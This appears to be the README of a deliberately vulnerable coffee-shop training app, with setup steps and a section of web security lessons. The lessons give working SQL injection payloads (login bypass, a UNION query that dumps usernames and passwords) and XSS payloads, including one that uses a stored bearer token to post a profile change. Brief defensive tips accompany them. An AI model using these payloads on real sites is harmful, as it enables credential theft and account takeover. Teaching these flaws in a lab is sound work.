 # ✅ Getting Started

### API
Go into the api folder and run:
```
npm i
node app.js
```
### Frontend
Go to coffee-shop folder and run:
```
npm i
npm run build
```

### Nginx
Configure nginx with the following configuration:

```
server {
    listen 80;
    server_name localhost;  # Replace with your domain if needed
    location /api {
        proxy_pass http://localhost:3000;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
    location / {
        root /path/to/react/dist;  # Change this if your frontend is built elsewhere
        index index.html;
        try_files $uri /index.html;
    }
}
```


# 🔐 Web Security Vulnerabilities & Exploits

## 1️⃣ SQL Injection (SQLi) 💉  
### 🔹 Login Bypass & Parameterized Query  
```sql
-- Example of SQLi in login
SELECT * FROM users WHERE username = 'test' and password = '' or ''=''

-- Vulnerable query
SELECT * FROM users WHERE username = '${username}' and password = '${password}'

-- SQLi Payloads
username -> test'--
password -> dsafsdfsdf

-- Final Query After Injection
SELECT * FROM users WHERE username = 'test\'--' and password = 'dsafsdfsdf'
```
### 🔹 Full Database Access  
```sql
-- Exploiting UNION-based SQLi
SELECT * FROM coffee WHERE id = 2--
```
```text
http://localhost/api/coffee/22+union+select+(select+concat(username,':',password)+from+users+limit+2,1),2,3,4--
```

- ❌ Do not allow arbitrary user input in SQL queries
- ✅ Use parameterized query

---

## 2️⃣ Cross-Site Scripting (XSS) ❌  
### 🔹 Types of XSS  
- **Reflected XSS**
- **Stored XSS**  

### 🔹 HTML Injection  
```html
<div style="background-color: white; position: absolute; top:0; left:0; width: 100%; height: 100%;">
    hello
</div>
```

### 🔹 Script Injection  
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)/>
```
```html
<img src=x onerror="fetch('http://localhost/api/profile/update',{
    method:'POST',
    headers:{
        'Content-Type':'application/json',
        'Authorization': `Bearer ${localStorage.getItem('token')}`
    }, 
    body: JSON.stringify({name:'haha'})
})"/>
```

### 🛠 XSS Practice Platforms  
- [XSS Quiz](https://xss-quiz.int21h.jp/)  
- [HackXpert XSS Playground](https://labs.hackxpert.com/XSS_Playground)  
- [Google XSS Game](https://xss-game.appspot.com/)  


❌ Do not render HTML directly from user input

---

## 3️⃣ Cross-Site Request Forgery (CSRF) 💀  
- Use `csurf` middleware  
- Implement CSRF Tokens  

---

## 4️⃣ Insecure Direct Object Reference (IDOR) 🔑  
- ❌ **Never take `user_id` from request**  
- ❌ **Never expose sensitive IDs in responses**  
- ✅ **Use UUIDs instead of sequential IDs**  

---

## 5️⃣ Open Redirection 🔄  
- Validate and whitelist redirects to avoid phishing attacks  

---

## 6️⃣ Broken Authentication 💔🔑
- **Do not rely on client-side validation**  

---

## 7️⃣ Brute Force Attacks 🛑  
- Implement **rate limiting** using `express-rate-limit`  

---
